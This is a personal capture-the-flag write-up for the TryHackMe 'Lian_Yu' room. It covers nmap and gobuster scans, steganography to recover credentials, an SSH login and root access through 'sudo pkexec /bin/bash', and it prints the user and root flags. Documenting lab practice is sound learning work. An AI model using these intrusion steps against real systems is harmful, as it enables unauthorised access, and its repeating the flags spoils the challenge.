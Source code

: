 ### lian_yu

## 9/18/20

### IP

IP `10.10.137.46`

### nmap scan

nmap scan
nmap -sC -sV -p- -oN nmap/initial 10.10.137.46

```
# Nmap 7.80 scan initiated Fri Sep 18 19:40:24 2020 as: nmap -sC -sV -oN nmap/initial 10.10.137.46
Nmap scan report for 10.10.137.46
Host is up (0.27s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-title: Purgatory
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          35556/udp   status
|   100024  1          49617/udp6  status
|   100024  1          53353/tcp6  status
|_  100024  1          60791/tcp   status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 18 19:42:35 2020 -- 1 IP address (1 host up) scanned in 130.54 seconds
```

### gobuster scan

gobuster dir -u 10.10.137.46 -w /usr/share/wordlists/directory-list-2.3-medium.txt -o gobuster_scan.txt

/island (Status: 301)
/server-status (Status: 403)

#### gobuster scan of /island/2100

gobuster dir --url 10.10.137.46/island/2100 --wordlist /usr/share/wordlists/directory-list-2.3-medium.txt -x .ticket

/green_arrow.ticket
reveals RTy8yhBQdscX
convert from base58 !#th3h00d

### Hexedit

used hexedit to change the image Leave_me_alone.png (would not open)
password

### Steghide

used steghide on the aa.jpg
password

### Unzip ss

archive:  ss.zip
  inflating: passwd.txt
  inflating: shado
[inflatus@cheese-shop gobuster]$ cat passwd.txt
This is your visa to Land on Lian_Yu # Just for Fun ***

a small Note about it

Having spent years on the island, Oliver learned how to be resourceful and
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.

[inflatus@cheese-shop gobuster]$ cat shado
M3tahuman

### ssh with username and password

ssh 10.10.127.190
slade
M3tahuman

cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
   --Felicity Smoak

### privesc

sudo -l
[sudo] password for slade:
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/bash

root@LianYu:~# ls -l
total 4
-rw-r--r-- 1 root root 340 May  1 07:17 root.txt
root@LianYu:~# cat root.txt
                          Mission accomplished

You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE.

THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
               --DEATHSTROKE
